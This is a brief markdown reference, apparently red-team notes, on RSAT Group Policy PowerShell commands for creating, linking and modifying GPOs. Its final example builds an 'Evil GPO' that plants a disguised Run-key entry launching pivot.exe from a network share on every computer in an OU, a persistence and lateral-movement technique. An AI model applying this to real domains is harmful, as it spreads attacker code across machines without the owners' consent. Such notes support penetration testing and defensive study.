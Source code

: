 # Remote Server Administration Tools (RSAT)

> A Microsoft-signed suite of tools for administering Windows systems.

---

## Check if RSAT Group Policy PowerShell Module is Installed

```powershell
Get-Module -List -Name GroupPolicy | select -Expand ExportedCommands
```

---

## Install RSAT Group Policy Module

```powershell
Install-WindowsFeature -Name GPMC
```

---

## Create New GPO and Link to OU

```powershell
New-GPO -Name "$GPO_NAME" | New-GPLink -Target "$DN_OF_OU"
```

- `$DN_OF_OU` is the LDAP distinguished name of the OU
	- Example: `OU=Workstations,DC=dev,DC=cyberbotic,DC=io`

---

## Modify GPO to Write New Key into OU's Computer's Registries

```powershell
Set-GPPrefRegistryValue -Name "$GPO_NAME" -Context Computer -Action Create -Key "$REGISTRY_KEY" -ValueName "$VALUE_NAME" -Value "$VALUE" -Type "$TYPE"
```

Example:

```powershell
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString
```

---

## References

[Microsoft.com](https://www.microsoft.com/en-us/download/details.aspx?id=45520)